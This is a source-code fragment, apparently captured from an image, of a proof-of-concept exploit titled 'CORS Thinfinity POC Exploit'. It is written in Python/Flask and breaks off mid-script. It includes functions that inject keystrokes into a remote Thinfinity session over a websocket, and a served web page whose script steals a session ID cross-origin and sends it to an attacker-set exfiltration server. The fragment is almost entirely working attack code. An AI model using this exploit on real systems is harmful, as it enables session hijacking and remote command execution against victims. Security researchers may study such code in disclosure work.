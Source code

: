 ```python
    return([l for l in ([ip for ip in socket.gethostbyname_ex(socket.gethostname())[2] if not ip.startswith("127.")][:1], [[(s.connect(('8.8.8.8', 53)), s.getsockname()[0], s.close()) for s in [socket.socket(socket.AF_INET, socket.SOCK_DGRAM)]][0][1]]) if l][0][0])


def send_enter(ws, str_id):
    ws.send("cmd=keyb&key=13&char=0&action=down&id={" + str_id + "}")
    time.sleep(1)

def send_ctrl_esc(ws, str_id):
    ws.send("cmd=fkey&key=CtrlEsc&id={%s}" % str_id)
    time.sleep(1)

def send_text(ws, cmd, str_id):

    for c in cmd:
        key = str(ord(c))

        command  = "cmd=keyb&key=66&action=down&id={%s}&char=%s&location=0" % (str_id,key)
        ws.send(command)
        time.sleep(0.2)

    time.sleep(2)


@app.route("/exploit")
def about():

    ip = request.host.split(':')[0]

    return """
        <!DOCTYPE html>
        <html>
        <body>
        <center>
        <h2>CORS Thinfinity POC Exploit</h2>
        <h3>Extract ID</h3>

        <div id="demo">
        <button type="button" onclick="cors()">Exploit</button>
        </div>

        <script>
        function cors() {

        var xhttp = new XMLHttpRequest();
        xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {

                response = JSON.parse(this.responseText)
                id_str = response['id']

                id_str = id_str.slice(1, id_str.length - 1)

                alert("Exfiltrated ID: " + id_str)
                alert("Do you want to send the exploit?")

                const flask_http = new XMLHttpRequest();

                // Server to exfiltrate the websocket id

                // CHANGE THIS
                var exf_server = "%s:5000"
```
